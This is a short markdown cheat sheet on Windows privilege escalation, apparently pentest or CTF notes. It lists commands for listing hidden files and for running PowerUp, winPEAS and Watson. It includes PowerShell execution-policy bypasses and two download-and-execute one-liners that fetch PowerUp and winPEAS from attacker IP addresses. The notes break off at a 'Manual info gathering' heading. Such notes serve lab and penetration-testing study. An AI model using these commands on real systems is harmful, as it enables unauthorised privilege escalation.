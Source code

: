 ```yaml
---
title: initial
category: win privesc
order: 1
---
```


>**IMPORTANTE**    
>dir /r  
>dir /A
> Get-ChildItem . -Force
---

# Automatic tools
---
## 1 powerup
#### | from file
```
c:> powershell.exe -nop -exec bypass
PS C:> ./PowerUp.ps1
PS C:> Invoke-AllChecks
```
```
c:> powershell.exe -nop -exec bypass
PS c:> Import-MOdule ./PowerUp.ps1
PS c:> Invoke-AllChecks
```
#### | from url
```
powershell.exe  -nop -ep bypass -c "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.14/PowerUp.ps1')"
```


## 2 winpeas
```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile "IEX(New-Object System.Net.WebClient).downloadFile('http://10.10.14.6/winPEAS64.exe','C:\users\Administrator\Documents\wp.exe')"

c:\users\kosts\Desktop> .\wp.exe
```

## 3 watson
same as winpeas
&nbsp;
&nbsp;
# Manual info gathering
---
